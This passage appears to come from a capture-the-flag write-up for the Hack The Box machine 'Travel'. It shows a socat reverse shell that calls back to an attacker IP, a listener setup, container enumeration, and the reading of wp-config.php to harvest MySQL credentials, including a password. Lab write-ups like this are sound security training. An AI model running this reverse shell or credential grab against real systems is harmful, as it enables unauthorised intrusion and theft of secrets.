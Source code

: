 Luckily `socat` is so we will get a reverse shell using socat. We run this command on our shell:
```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.14:3333
```
And then on our host we get a connection back:
```
┌──(kali㉿kali)-[~/htb/boxes/travel/blog-dev]
└─$ socat file:`tty`,raw,echo=0 tcp-listen:3333
www-data@blog:/$
```
Cool so now we have an upgraded shell so we can begin our enumeration of the host.
We assume this is a docker container but we confirm our suspicions by running `ip a`:
```bash
www-data@blog:/$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
16: eth0@if17: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:1e:00:0a brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.30.0.10/24 brd 172.30.0.255 scope global eth0
       valid_lft forever preferred_lft forever
```
The inet address should be 10.10.10.189 so we know its a docker as it doesnt have that ip address.

After some very basic enumeration we find a file in `/var/www/html/wp-config.php` which contains mysql database credentials.
## Mysql database extraction
```bash
www-data@blog:/var/www/html$ cat wp-config.php
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/support/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wp' );

/** MySQL database username */
define( 'DB_USER', 'wp' );

/** MySQL database password */
define( 'DB_PASSWORD', 'fiFtDDV9LYe8Ti' );

/** MySQL hostname */
define( 'DB_HOST', '127.0.0.1' );

/** Database Charset to use in creating database tables. */
```